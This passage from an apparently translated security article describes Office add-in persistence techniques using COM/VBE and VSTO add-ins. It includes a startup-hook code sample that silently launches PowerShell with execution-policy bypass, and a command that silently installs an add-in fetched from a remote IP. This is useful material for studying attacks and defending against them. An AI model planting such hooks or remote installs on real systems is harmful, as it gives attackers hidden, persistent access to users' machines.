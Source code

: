配置好的插件可以在VBA编辑器的外接程序管理器中看到，如图14所示：

[![](https://p0.ssl.qhimg.com/t014047d8f5556c11cf.png)](https://p0.ssl.qhimg.com/t014047d8f5556c11cf.png)

图 14 VBE插件状态

**优点：**①创建插件，多个office产品能通用（一举多得）；②一条命令即可完成部署(regasm)

**缺点：**①需要用户打开VBA编辑器；②com注册需要管理员权限；③VDI环境中可能用处不大。

<br>

**VSTO 插件<br style="text-align: left">**



为了完整性，此处也提下Visual Studio Tools for Office(VSTO)。VSTO在office新版本中是Com插件的替代品，虽然前者还是能用。与Com插件不同的是，VSTO要求特定的运行时来安装，而默认是没有安装的。

用VSTO来实现永久化的一个点是利用“ThisAddIn-Startup”函数，该函数用于处理启动事件（如应用程序启动的时候模块加载时）。实例如下：

```
private void ThisAddIn_Startup(object sender, System.EventArgs e)
`{`
    System.Diagnostics.Process process = new System.Diagnostics.Process();
    System.Diagnostics.ProcessStartInfo startInfo = new System.Diagnostics.ProcessStartInfo();
    startInfo.WindowStyle = System.Diagnostics.ProcessWindowStyle.Hidden;
    startInfo.FileName = "powershell.exe";
    startInfo.Arguments = "-ep bypass -C calc";
    process.StartInfo = startInfo;
    process.Start();
`}`
```

VSTO插件利用的难点就在于部署。部分是因为需要特殊的运行时。如果没有被安装，可以使用Vstor_redist.exe进行静默安装，不过需要处理安全控制（需要避免被检测到）。

VSTO插件（*.vsto）可以使用VSTOInstaller.exe进行安装(它是运行时的一部分)，如图15所示：

[![](https://p3.ssl.qhimg.com/t015b11d94b054cd798.png)](https://p3.ssl.qhimg.com/t015b11d94b054cd798.png)

图 15 利用VSTOInstaller.exe安装VSTO插件

不幸的是，这会弹出确认安装的提示。虽然可以使用/s选项来静默安装，但这需要可信的证书发布者进行签名，否则安装会失败。安装提示如图16所示：

[![](https://p1.ssl.qhimg.com/t01ae77a1b586773d05.png)](https://p1.ssl.qhimg.com/t01ae77a1b586773d05.png)

图 16 VSTO插件安装提示

有趣的是，VSTOInstaller.exe是微软签名的文件，插件的位置可以由URL指定(如"VSTOInstaller.exe /s /i [http://192.168.7.129/OutlookAddIn1.vsto](http://192.168.7.129/OutlookAddIn1.vsto))。乍看之下，会让人觉得如果有VSTO插件在使用，就可以用来绕过可能的应用白名单。不过Windows的信任模型限制了这种方式。虽然用户可能会信任在“Trusted Root”中信任一些CA，但是这种信任并不能用于让他们对软件进行更新。相反，有个单独的“Trusted Pulibsheer”（受信任发布者）保存着用着这种能力的CA。

**优点：**VSTOInstaller.exe是微软签名的程序，可用通过HTTP以静默的方式下载插件，尽管需要来源于可信的发布者。

**缺点：**①需要VSTO运行时；②没有可信发布者对插件签名就不能静默安装，尽管用户可能会把它当做正常应用来安装它；③VDI环境中可能用处不大。

<br style="text-align: left">
